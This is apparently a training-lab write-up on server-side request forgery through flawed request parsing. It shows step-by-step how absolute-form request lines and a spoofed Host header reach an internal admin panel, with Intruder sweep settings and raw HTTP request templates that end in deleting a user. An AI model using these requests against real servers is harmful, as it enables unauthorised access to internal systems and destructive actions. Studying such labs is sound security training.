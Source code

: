 # SSRF via flawed request parsing

Risk: The server validates the `Host` header for origin-form requests, but when an absolute URI is used in the request line, routing/validation is derived from the absolute URL instead. By sending an absolute-form request line while manipulating `Host`, you can coerce middleware to route to arbitrary backends (for example, internal IPs), enabling SSRF to an intranet admin panel.

Assumptions
- Server accepts absolute-URI request lines (for example, `GET https://{VICTIMSITE}/ HTTP/1.1`).
- With absolute-form requests, validation focuses on the absolute URL host and not the `Host` header; middleware still uses `Host` for upstream routing.
- Internal admin panel is reachable at `192.168.0.0/24` and exposes `/admin` and `/admin/delete` (CSRF token + cookie session).
- External verification must use Burp Collaborator’s default public server.

High-level attack chain
1) Prove absolute-form parsing difference: `GET https://{VICTIMSITE}/` works even when `Host` is changed (origin-form would be blocked) but may timeout, indicating routing attempts to the `Host` destination.
2) Verify SSRF: keep request line absolute to `{VICTIMSITE}`, set `Host: {COLLAB_DOMAIN}`, and observe Collaborator interactions.
3) Bruteforce `192.168.0.0/24` via `Host` to find the admin IP (look for `302 /admin`).
4) Access `/admin` and obtain CSRF and session cookie while routing via the discovered internal IP.
5) Send a POST to `/admin/delete` with CSRF + cookie to delete `carlos`.

Hunting methodology (repeatable)
1) Baseline and absolute-form test
   - Origin-form baseline: `GET /` with `Host: {VICTIMSITE}` → 200.
   - Absolute-form: `GET https://{VICTIMSITE}/` with modified `Host` → request not blocked; timeouts indicate routing attempt to `Host` destination.

2) Validate SSRF with Collaborator
   - `GET https://{VICTIMSITE}/` and `Host: {COLLAB_DOMAIN}` → poll Collaborator for HTTP interactions.

3) Sweep internal range via `Host`
   - Intruder: deselect “Update Host header to match target”. Use `Host: 192.168.0.§0§` with Numbers 0–255. Sort by status; identify the `302` to `/admin`.

4) Access admin and delete user
   - Repeater: `GET https://{VICTIMSITE}/admin` with `Host: 192.168.0.{HIT}` to get CSRF + `Set-Cookie`.
   - Then: `POST https://{VICTIMSITE}/admin/delete?csrf={TOKEN}&username=carlos` with `Host: 192.168.0.{HIT}` and `Cookie: session={SESSION}`.

Key request templates
```
# Absolute-form baseline
GET https://{VICTIMSITE}/ HTTP/1.1
Host: {VICTIMSITE}

# SSRF validation
GET https://{VICTIMSITE}/ HTTP/1.1
Host: {COLLAB_DOMAIN}

# Bruteforce internal range
GET https://{VICTIMSITE}/ HTTP/1.1
Host: 192.168.0.§0§

# Admin access
GET https://{VICTIMSITE}/admin HTTP/1.1
Host: 192.168.0.{HIT}

# Delete user (convert to POST)
POST https://{VICTIMSITE}/admin/delete?csrf={TOKEN}&username=carlos HTTP/1.1
Host: 192.168.0.{HIT}
```